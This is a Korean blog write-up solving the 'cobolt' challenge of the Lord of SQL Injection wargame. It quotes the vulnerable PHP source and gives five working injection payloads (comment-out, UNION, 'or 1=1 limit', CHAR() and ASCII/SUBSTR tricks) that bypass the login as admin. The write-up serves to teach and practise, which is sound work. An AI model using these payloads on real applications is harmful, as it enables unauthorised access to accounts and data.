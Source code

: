 ```yaml
---
title: Lord of SQL Injection Write Up No.2 Cobolt
date: 2019-08-13 20:47:11
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 2번 cobolt 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

SQL Injection을 통해 원하는 값을 `SELECT` 하도록 조작할 수 있는지 확인한다.

### 필요 배경 지식

#### LIMIT

MySQL에는 `SELECT`절에 `LIMIT`이라는 구문을 이용하여 반환되는 행을 제한하는 기능이 있다.
[MySQL Documentation](https://dev.mysql.com/doc/)에서 [SELECT절에 대한 문서](https://dev.mysql.com/doc/refman/5.7/en/select.html)를 찾아보면 다음과 같은 부분을 찾을 수 있다.

> The LIMIT clause can be used to constrain the number of rows returned by the SELECT statement. LIMIT takes one or two numeric arguments, which must both be nonnegative integer constants, with these exceptions:
> Within prepared statements, LIMIT parameters can be specified using ? placeholder markers.
> Within stored programs, LIMIT parameters can be specified using integer-valued routine parameters or local variables.
> With two arguments, the first argument specifies the offset of the first row to return, and the second specifies the maximum number of rows to return. The offset of the initial row is 0 (not 1):
>
> ```sql
> SELECT * FROM tbl LIMIT 5,10;  # Retrieve rows 6-15
> ```

즉, `SELECT` 절의 마지막에 `LIMIT 1,1` 을 붙이면 테이블에서 조건에 맞는(WHERE 구문이 있으면) 행 중 첫 번째 행부터가 아닌 **두 번째** 행부터 **하나의** 행만 가져오게 된다.

### 소스 코드 분석

cobolt 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";
  highlight_file(__FILE__);
?>
```

1~6번 줄은 1번 문제와 동일하다.

#### Query

```php
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";
```

- 받은 `id`와 `pw`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- 1번 문제와 거의 동일하며, 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `id`에 `"admin"`이라는 값이 들어있음'이다.

## Solution

1. `admin` 문자열 직접 삽입

   ```url
   http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin'-- -
   ```

   ```sql
   select id from prob_cobolt where id='admin'-- -' and pw=md5('')
   ```

   이는 결국 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.

2. `UNION` 구문 이용

   ```url
   http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' union select 'admin'-- -
   ```

   ```sql
   select id from prob_cobolt where id='' union select 'admin'-- -' and pw=md5('')
   ```

   이는 결국 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.

3. `LIMIT` 구문 이용

   ```url
   http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' or 1=1-- -
   ```

   ```sql
   select id from prob_cobolt where id='' or 1=1-- -' and pw=md5('')
   ```

   이는 테이블의 모든 행을 불러오도록 조작하는 SQL Injection이다. 이를 수행하면 다음과 같은 문자열이 응답에 포함된다.

   ```txt
   Hello rubiya
   You are not admin :(
   ```

   이 문자열로 미루어 보아 테이블에 `admin`이라는 `id`를 가진 행이 있을 것임을 추측할 수 있다.

   또한 현재는 테이블의 `rubiya`라는 `id`를 가진 첫 번째 행이 들어가지만 `$result['id']`에 들어가는 행을 하나씩 당겨보는 것을 `id`가 `admin`인 행에 도달할 때까지 반복하면 문제가 풀릴 것임을 추측할 수 있다.

   ```url
   http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' or 1=1 limit 1,1-- -
   ```

   ```sql
   select id from prob_cobolt where id='' or 1=1 limit 1,1-- -' and pw=md5('')
   ```

   위 SQL Injection은 prob_cobolt 테이블의 2번째 행의 `id`가 `admin`이기 때문에 결국 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.

4. `CHAR()` 함수 및 ASCII 코드 활용

   ```url
   http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' or id=char(97, 100, 109, 105, 110)-- -
   ```

   ```sql
   select id from prob_cobolt where id='' or id=char(97, 100, 109, 105, 110)-- -' and pw=md5('')
   ```

   이는 ASCII에서 10진수 표기를 문자 표기로 바꿔주는 MySQL 함수인 `CHAR`를 이용하여 `id`가 `admin`인 행을 찾아 선택하도록 만든다.

   ASCII에서, `'a'`=`97`, `'d'`=`100`, `'m'`=`109`, `'i'`=`105`, `'n'`=`110`이다.

   따라서 이는 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.

5. ASCII(), SUBSTR() 함수 및 ASCII 코드 활용

   ```url
   http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' or ascii(substr(id, 1, 1))=97-- -
   ```

   ```sql
   select id from prob_cobolt where id='' or ascii(substr(id, 1, 1))=97-- -' and pw=md5('')
   ```

   이는 ASCII에서 문자 표기자 10진수 표기로 바꿔주는 MySQL 함수인 `ASCII`를 이용하여 `id`가 `a`로 시작하는 행을 찾아 선택하도록 만든다.

   이번에는 운이 좋아 `a`로 시작하는 첫번째 행이 `admin`이었지만, 만약 안되면 1번째 글자가 `a`, 2번째 글자가 `d`, 3번째 글자가 `m`, 4번째 글자가 `i`, 5번째 글자가 `n`인 행을 찾도록 조작하면 된다.

   ASCII에서, `'a'`=`97`이다.

   따라서 이는 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.
